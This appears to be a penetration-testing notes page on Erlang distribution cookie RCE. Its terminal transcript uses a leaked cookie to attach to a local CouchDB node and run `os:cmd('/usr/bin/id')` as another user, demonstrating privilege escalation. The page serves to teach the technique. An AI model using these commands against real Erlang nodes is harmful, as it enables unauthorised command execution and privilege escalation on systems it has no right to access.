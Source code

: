 # Erlang

## Authentication Cookie RCE

If the authentication cookie for an Erlang node is leaked, then you can take advantage of this to achieve RCE.  Typically this will be via local port tcp/4369.  The following PoC connects to a local node with a cookie of cookieval, and then spawns a command on an adjacent node with the same cookie value.  If the adjacent node is run by `mainuser` then we achieve privilege escalation.

```
otheruser@booj:/$ export HOME=/tmp
export HOME=/tmp
otheruser@booj:/$ erl -sname booj -setcookie cookieval -remsh couchdb@localhost
<me booj -setcookie cookieval -remsh couchdb@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(couchdb@localhost).
net_adm:ping(couchdb@localhost).
pong
(booj@booj)2> spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

### Further Reading

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/)

[https://www.broot.ca/erlang-remsh-is-dangerous](https://www.broot.ca/erlang-remsh-is-dangerous)

[http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html](http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html)

https://github.com/msantos/spoofed

